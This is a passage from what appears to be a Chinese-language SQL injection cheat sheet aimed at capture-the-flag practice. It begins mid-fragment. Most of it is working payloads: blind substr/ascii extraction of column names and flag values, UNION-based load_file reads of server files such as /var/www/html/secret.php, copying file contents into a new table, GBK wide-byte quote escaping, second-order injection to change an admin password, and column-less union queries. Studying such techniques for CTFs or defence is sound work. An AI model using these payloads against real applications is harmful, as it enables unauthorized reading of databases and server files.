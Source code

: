     select * from user where id=1 and ord( SUBSTR((select group_concat(column_name) from information_schema.columns where table_name="{}"),{},1))>{}'
    url=urlOPEN+'if(substr((select column_name from information_schema.columns where table_name="flag"and table_schema= database() limit %d,1),%d,1)="%s",1,(select table_name from information_schema.tables))' %(k,j,i)

data
    
    url=urlOPEN+'if(ascii(substr((select flag from flag),%d,1))=%d,1,(select table_name from information_schema.tables))' %(j,i)

### 0x10读取文件

load_file配合mid

    配合个不存在的id
    query=100/**/union/**/select/**/load_file('/var/www/html/secret.php')
    query=0/**/union/**/select/**/load_file('/var/www/html/secret.php')
    query=-1/**/union/**/select/**/load_file('/var/www/html/secret.php')
    
    select load_file('E:\flag.txt')
    select ascii(mid((select load_file('E:\flag.txt')),1,1));
    select ascii(mid((select load_file('E:\flag.txt')),2,1)); -- 1,2,3逐位读取再转换成字符


直接注入表读取

    create table abc(cmd text);
    insert into abc(cmd) values (load_file('E:\flag.txt'));
    select * from abc;


### 宽字节注入

* 運
* Unicode编号： U+904B
* GBK编码： df5c

* select * from users where id = '<span style="color: #f4c01b">%DF\\'#</span>'

### 二次注入


* INSERT INTO users VALUES('<span style="color: #f4c01b">admin\\'#</span>','password');
* UPDATE users SET password='123' WHERE username='<span style="color: #f4c01b">admin'#</span>'

### 无列名注入
|   id   |username| xxxxxx           |
| ------ | ------ | ------           |
|   1    | admin  |flag{this_is_flag}|
|   2    | admin2 |   1              |

select * from users where id=1 union select flag,2,3 from flag

select c from (select 'a','b','c' union select * from users) as t
